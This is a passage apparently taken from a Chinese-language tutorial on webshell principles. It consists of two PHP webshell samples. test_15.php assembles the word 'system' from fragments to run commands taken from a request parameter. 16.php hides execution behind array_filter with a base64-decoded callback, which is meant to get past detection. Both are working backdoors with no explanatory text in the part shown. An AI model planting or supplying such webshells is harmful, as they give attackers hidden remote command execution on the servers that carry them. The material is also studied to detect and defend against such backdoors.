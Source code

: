 ```php
# test_15.php
<?php
	error_reporting(0);
	$g = array('','s');
	$gg = sy.$g[1].te.chr('109');
	@$gg($_REQUEST[h]);
?>
```

![](webshell原理.assets/15.png)

#### 16.php

```php
<?php
	$e = $_REQUEST['e'];
	$arr = array($_POST['pass'],);
	array_filter($arr, base64_decode($e));
?>
```
